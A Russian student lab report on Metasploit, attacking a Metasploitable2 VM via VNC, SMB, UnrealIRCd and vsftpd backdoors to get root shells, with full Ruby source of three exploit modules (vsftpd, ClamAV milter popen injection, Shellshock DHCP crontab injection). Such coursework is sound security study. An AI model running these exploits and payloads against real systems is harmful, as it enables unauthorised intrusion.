\section{Цель работы}
Изучение:
\begin{enumerate}
	\item Используя документацию изучить базовые понятия - auxiliary,
	payload, exploit, shellcode, nop, encoder
	\item Запустить msfconsole, узнать список допустимых команд (help)
	\item Базовые команды search (поиск по имени, типу, автору и др.),
	info, load, use
	\item Команды по работе с эксплойтом
	\item Команды по работе с БД
	\item GUI оболочка Armitage
	\item GUI веб-клиент
\end{enumerate}

Практическое задание:
\begin{enumerate}
\item Подключиться к VNC-серверу, получить доступ к консоли
\item Получить список директорий в общем доступе по протоколу SMB
\item Получить консоль используя уязвимость в vsftpd
\item Получить консоль используя уязвимость в irc
\item Armitage Hail Mary
\end{enumerate}

\section{Ход работы}

\subsection{Базовые понятия}
\begin{itemize}
	\item auxiliary - сканирование, получение информации о системе и так далее. Все модули, кроме эксплоитов.
	\item payload - код, который в ходе взлома необходимо выполнить на атакуемой машине. Может быть шелл-скриптом, бинарными кодом (который, например, вызывается с помощью переполнения буфера)
	\item exploit - модуль для непосредственно выполнения взлома. Результат его работы - получение контроля, повышение привилегий или отказ в обслуживании компьютерной системы.
	\item shellcode - разновидность payload, которая исполняется в интерпретаторе. Для генерации можно использовать команду mfspayload.
	\item nop - пустая операция (no operation).
	\item encoder - модуль для кодирования shellcode (например, экранирование недопустимых символов). Некоторые атаки накладывают ограничения на то, в каком виде должен быть представлен shellcode. Для кодирования - команда mfsencode.
\end{itemize}

\subsection{msfconsole}
\begin{lstlisting}
root@kali:~# msfconsole 

=[ metasploit v4.11.7-                             ]
+ -- --=[ 1518 exploits - 877 auxiliary - 259 post        ]
+ -- --=[ 437 payloads - 38 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > help

Core Commands
=============

Command       Description
-------       -----------
?             Help menu
advanced      Displays advanced options for one or more modules
back          Move back from the current context
banner        Display an awesome metasploit banner
cd            Change the current working directory
color         Toggle color
connect       Communicate with a host
edit          Edit the current module with $VISUAL or $EDITOR
exit          Exit the console
get           Gets the value of a context-specific variable
getg          Gets the value of a global variable
grep          Grep the output of another command
help          Help menu
info          Displays information about one or more modules
irb           Drop into irb scripting mode
jobs          Displays and manages jobs
kill          Kill a job
load          Load a framework plugin
loadpath      Searches for and loads modules from a path
makerc        Save commands entered since start to a file
options       Displays global options or for one or more modules
popm          Pops the latest module off the stack and makes it active
previous      Sets the previously loaded module as the current module
pushm         Pushes the active or list of modules onto the module stack
quit          Exit the console
reload_all    Reloads all modules from all defined module paths
rename_job    Rename a job
resource      Run the commands stored in a file
route         Route traffic through a session
save          Saves the active datastores
search        Searches module names and descriptions
sessions      Dump session listings and display information about sessions
set           Sets a context-specific variable to a value
setg          Sets a global variable to a value
show          Displays modules of a given type, or all modules
sleep         Do nothing for the specified number of seconds
spool         Write console output into a file as well the screen
threads       View and manipulate background threads
unload        Unload a framework plugin
unset         Unsets one or more context-specific variables
unsetg        Unsets one or more global variables
use           Selects a module by name
version       Show the framework and console library version numbers


Database Backend Commands
=========================

Command           Description
-------           -----------
creds             List all credentials in the database
db_connect        Connect to an existing database
db_disconnect     Disconnect from the current database instance
db_export         Export a file containing the contents of the database
db_import         Import a scan result file (filetype will be auto-detected)
db_nmap           Executes nmap and records the output automatically
db_rebuild_cache  Rebuilds the database-stored module cache
db_status         Show the current database status
hosts             List all hosts in the database
loot              List all loot in the database
notes             List all notes in the database
services          List all services in the database
vulns             List all vulnerabilities in the database
workspace         Switch between database workspaces
\end{lstlisting}

Самое интересное:
\begin{itemize}
	\item set - установить переменную
	\item use - выбрать текущий модуль
\end{itemize}

\subsection{Атака на VNC}
VNC - протокол для удаленного управления рабочим столом.

Здесь и далее: адрес атакуемой машины - 10.0.0.1, адрес машины с Kali - 10.0.0.2.

\begin{lstlisting}
msf > search vnc
[!] Module database cache not built yet, using slow search

Matching Modules
================

Name                                                 Disclosure Date  Rank       Description
----                                                 ---------------  ----       -----------
auxiliary/admin/vnc/realvnc_41_bypass                2006-05-15       normal     RealVNC NULL Authentication Mode Bypass
auxiliary/scanner/vnc/vnc_login                                       normal     VNC Authentication Scanner
\end{lstlisting}

\begin{lstlisting}
msf > use auxiliary/scanner/vnc/vnc_login
msf auxiliary(vnc_login) > set RHOSTS 10.0.0.1
RHOSTS => 10.0.0.1
msf auxiliary(vnc_login) > exploit

[*] 10.0.0.1:5900 - Starting VNC login sweep
[!] No active DB -- Credential data will not be saved!
[+] 10.0.0.1:5900 - LOGIN SUCCESSFUL: :password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{lstlisting}

\begin{lstlisting}
msf auxiliary(vnc_login) > vncviewer 10.0.0.1
[*] exec: vncviewer 10.0.0.1

Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
Authentication successful
Desktop name "root's X desktop (metasploitable:0)"
\end{lstlisting}

\begin{figure}[H]
	\centering
	
\includegraphics[width=\textwidth]{images/1.png}
	\caption{Атака на VNC}
\end{figure}

\subsection{Атака на SMB}
SMB - протокол для обмена файлами в локальной сети.

\begin{lstlisting}
msf auxiliary(vnc_login) > use auxiliary/scanner/smb/smb_enumshares
msf auxiliary(smb_enumshares) > set RHOSTS 10.0.0.1
RHOSTS => 10.0.0.1
msf auxiliary(smb_enumshares) > exploit

[+] 10.0.0.1:139 - print$ - (DISK) Printer Drivers
[+] 10.0.0.1:139 - tmp - (DISK) oh noes!
[+] 10.0.0.1:139 - opt - (DISK) 
[+] 10.0.0.1:139 - IPC$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[+] 10.0.0.1:139 - ADMIN$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{lstlisting}

\subsection{Атака на IRC}
IRC - протокол для групповых чатов.

\begin{lstlisting}
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf exploit(unreal_ircd_3281_backdoor) > set RHOST 10.0.0.1
RHOST => 10.0.0.1
msf exploit(unreal_ircd_3281_backdoor) > exploit 

[*] Started reverse TCP double handler on 10.0.0.2:4444 
[*] Connected to 10.0.0.1:6667...
:irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
:irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo mrkPEZNVDx7PwnO9;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "mrkPEZNVDx7PwnO9\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.1:39586) at 2016-05-29 22:02:47 -0400

whoami
root
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
\end{lstlisting}

\subsection{Атака на FTP}
FTP - протокол для обмена файлами.

\begin{lstlisting}
msf exploit(unreal_ircd_3281_backdoor) > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(vsftpd_234_backdoor) > set RHOST 10.0.0.1
RHOST => 10.0.0.1
msf exploit(vsftpd_234_backdoor) > exploit

[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.0.0.2:39303 -> 10.0.0.1:6200) at 2016-05-29 21:57:44 -0400


whoami
root
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
\end{lstlisting}

\subsection{Armitage}

Armitage - графический интерфейс для Metasploit.

Запустим сканирование машин в подсети 10.0.0.0/24. Для машины 10.0.0.1 выполним сканирование портов.

\begin{figure}[H]
	\centering
	
\includegraphics[width=\textwidth]{images/2.png}
	\caption{Armitage}
\end{figure}

Запустим все эксплоиты с помощью Hail Mary.

\begin{figure}[H]
	\centering
	
\includegraphics[width=\textwidth]{images/3.png}
	\caption{Работа в режиме Hail Mary}
\end{figure}

Результат применения эксплоитов - две консольные сессии.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.8\textwidth]{images/4.png}
	\caption{Armitage}
\end{figure}

Подключение к одной из них

\begin{figure}[H]
	\centering
	
\includegraphics[width=\textwidth]{images/5.png}
	\caption{Armitage}
\end{figure}

\subsection{Анализ эксплоитов}

Рассмотрим подробнее эксплоит для vsftpd. Эксплоит написан на языке Ruby и расположен по адресу /usr/share/metasploit-framework/modules/exploits/unix/ftp/vsftpd\_234\_backdoor.rb. Информация об эксплуатируемой уязвимости:
 \url{http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html}
 
Для получения доступа к shell эксплоит пытается залогиниться, используя имя пользователя со смайликом. Если сервер уязвим, на порту 6200 открывается доступ к консоли.

\begin{lstlisting}[caption=modules/exploits/unix/ftp/vsftpd\_234\_backdoor.rb]
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'VSFTPD v2.3.4 Backdoor Command Execution',
      'Description'    => %q{
          This module exploits a malicious backdoor that was added to the	VSFTPD download
          archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between
          June 30th 2011 and July 1st 2011 according to the most recent information
          available. This backdoor was removed on July 3rd 2011.
      },
      'Author'         => [ 'hdm', 'MC' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'OSVDB', '73573'],
          [ 'URL', 'http://pastebin.com/AetT9sS5'],
          [ 'URL', 'http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html' ],
        ],
      'Privileged'     => true,
      'Platform'       => [ 'unix' ],
      'Arch'           => ARCH_CMD,
      'Payload'        =>
        {
          'Space'    => 2000,
          'BadChars' => '',
          'DisableNops' => true,
          'Compat'      =>
            {
              'PayloadType'    => 'cmd_interact',
              'ConnectionType' => 'find'
            }
        },
      'Targets'        =>
        [
          [ 'Automatic', { } ],
        ],
      'DisclosureDate' => 'Jul 3 2011',
      'DefaultTarget' => 0))

    register_options([ Opt::RPORT(21) ], self.class)
  end

  def exploit

    nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
    if nsock
      print_status("The port used by the backdoor bind listener is already open")
      handle_backdoor(nsock)
      return
    end

    # Connect to the FTP service port first
    connect

    banner = sock.get_once(-1, 30).to_s
    print_status("Banner: #{banner.strip}")

    sock.put("USER #{rand_text_alphanumeric(rand(6)+1)}:)\r\n")
    resp = sock.get_once(-1, 30).to_s
    print_status("USER: #{resp.strip}")

    if resp =~ /^530 /
      print_error("This server is configured for anonymous only and the backdoor code cannot be reached")
      disconnect
      return
    end

    if resp !~ /^331 /
      print_error("This server did not respond as expected: #{resp.strip}")
      disconnect
      return
    end

    sock.put("PASS #{rand_text_alphanumeric(rand(6)+1)}\r\n")

    # Do not bother reading the response from password, just try the backdoor
    nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
    if nsock
      print_good("Backdoor service has been spawned, handling...")
      handle_backdoor(nsock)
      return
    end

    disconnect

  end

  def handle_backdoor(s)

    s.put("id\n")

    r = s.get_once(-1, 5).to_s
    if r !~ /uid=/
      print_error("The service on port 6200 does not appear to be a shell")
      disconnect(s)
      return
    end

    print_good("UID: #{r.strip}")

    s.put("nohup " + payload.encoded + " >/dev/null 2>&1")
    handler(s)
  end

end
\end{lstlisting}

Эксплоит к антивирусу ClamAV, используемому совместно с почтовым сервером sendmail. Из-за неправильного использования функции popen() появляется возможность выполнить команду в консоли на сервере.

\begin{lstlisting}[caption=modules/exploits/unix/smtp/clamav\_milter\_blackhole.rb]
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::Smtp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'ClamAV Milter Blackhole-Mode Remote Code Execution',
      'Description'    => %q{
          This module exploits a flaw in the Clam AntiVirus suite 'clamav-milter'
        (Sendmail mail filter). Versions prior to v0.92.2 are vulnerable.
        When implemented with black hole mode enabled, it is possible to execute
        commands remotely due to an insecure popen call.
      },
      'Author'         => [ 'patrick' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', '2007-4560' ],
          [ 'OSVDB', '36909' ],
          [ 'BID', '25439' ],
          [ 'EDB', '4761' ]
        ],
      'Privileged'     => true,
      'Payload'        =>
        {
          'DisableNops' => true,
          'Space'       => 1024,
          'Compat'      =>
            {
              'PayloadType' => 'cmd cmd_bash',
              'RequiredCmd' => 'generic perl ruby bash-tcp telnet',
            }
        },
      'Platform'       => 'unix',
      'Arch'           => ARCH_CMD,
      'Targets'        =>
        [
          [ 'Automatic', { }],
        ],
      'DisclosureDate' => 'Aug 24 2007',
      'DefaultTarget'  => 0))

      register_options(
      [
        OptString.new('MAILTO', [ true, 'TO address of the e-mail', 'nobody@localhost']),
      ], self.class)
  end

  def exploit

    # ClamAV writes randomized msg.###### temporary files in a randomized
    # /tmp/clamav-#######################/ directory. This directory is
    # the clamav-milter process working directory.
    #
    # We *can* execute arbitrary code directly from 'sploit', however the
    # SMTP RFC rejects all payloads with the exception of generic CMD
    # payloads due to the IO redirects. I discovered that the 'From:'
    # header is written to this temporary file prior to the vulnerable
    # call, so we call the file itself and payload.encoded is executed.

    sploit = "sh msg*" # Execute the clamav-milter temporary file.

    # Create the malicious RCPT TO before connecting,
    # to make good use of the Msf::Exploit::Smtp support.

    oldaddr = datastore['MAILTO']
    newaddr = oldaddr.split('@')

    datastore['MAILTO'] = "<#{newaddr[0]}+\"|#{sploit}\"@#{newaddr[1]}>"

    connect_login

    sock.put("From: ;#{payload.encoded}\r\n") # We are able to stick our payload in this header
    sock.put(".\r\n")

    # Clean up RCPT TO afterwards

    datastore['MAILTO'] = oldaddr

    handler
    disconnect
  end

end
\end{lstlisting}

Эксплоит для DHCP. Причина - известная уязвимость в Bash под названием Shellshock, позволяющая выполнить код на сервере, когда программа пытается установить переменную окружения.

\begin{lstlisting}[caption=modules/exploits/unix/dhcp/bash\_environment.rb]
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'
require 'rex/proto/dhcp'

class Metasploit3 < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::DHCPServer

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Dhclient Bash Environment Variable Injection (Shellshock)',
      'Description'    => %q|
        This module exploits the Shellshock vulnerability, a flaw in how the Bash shell
        handles external environment variables. This module targets dhclient by responding
        to DHCP requests with a malicious hostname, domainname, and URL which are then
        passed to the configuration scripts as environment variables, resulting in code
        execution. Due to length restrictions and the unusual networking scenario at the
        time of exploitation, this module achieves code execution by writing the payload
        into /etc/crontab and then cleaning it up after a session is created.
      |,
      'Author'         =>
        [
          'Stephane Chazelas', # Vulnerability discovery
          'egypt' # Metasploit module
        ],
      'License'        => MSF_LICENSE,
      'Platform'       => ['unix'],
      'Arch'           => ARCH_CMD,
      'References'     =>
        [
          ['CVE', '2014-6271'],
          ['CWE', '94'],
          ['OSVDB', '112004'],
          ['EDB', '34765'],
          ['URL', 'https://securityblog.redhat.com/2014/09/24/bash-specially-crafted-environment-variables-code-injection-attack/'],
          ['URL', 'http://seclists.org/oss-sec/2014/q3/649'],
          ['URL', 'https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/']
        ],
      'Payload'        =>
        {
          # 255 for a domain name, minus some room for encoding
          'Space'       => 200,
          'DisableNops' => true,
          'Compat'      =>
            {
              'PayloadType' => 'cmd',
              'RequiredCmd' => 'generic telnet ruby',
            }
        },
      'Targets'        => [ [ 'Automatic Target', { }] ],
      'DefaultTarget'  => 0,
      'DisclosureDate' => 'Sep 24 2014'
    ))

    deregister_options('DOMAINNAME', 'HOSTNAME', 'URL')
  end

  def on_new_session(session)
    print_status "Cleaning up crontab"
    # XXX this will brick a server some day
    session.shell_command_token("sed -i '/^\\* \\* \\* \\* \\* root/d' /etc/crontab")
  end

  def exploit
    hash = datastore.copy
    # Quotes seem to be completely stripped, so other characters have to be
    # escaped
    p = payload.encoded.gsub(/([<>()|'&;$])/) { |s| Rex::Text.to_hex(s) }
    echo = "echo -e #{(Rex::Text.to_hex("*") + " ") * 5}root #{p}>>/etc/crontab"
    hash['DOMAINNAME'] = "() { :; };#{echo}"
    if hash['DOMAINNAME'].length > 255
      raise ArgumentError, 'payload too long'
    end

    hash['HOSTNAME'] = "() { :; };#{echo}"
    hash['URL'] = "() { :; };#{echo}"
    start_service(hash)

    begin
      while @dhcp.thread.alive?
        sleep 2
      end
    ensure
      stop_service
    end
  end

end
\end{lstlisting}

\section{Выводы}

Metasploit - огромный набор эксплоитов и инфраструктура для их использования. В ходе работы был изучен консольный интерфейс msfadmin и графический интерфейс Armitage. 

Было совершено проникновение в виртуальную машину Metasploitable2 с помощью уязвимостей в сервисах IRC и FTP.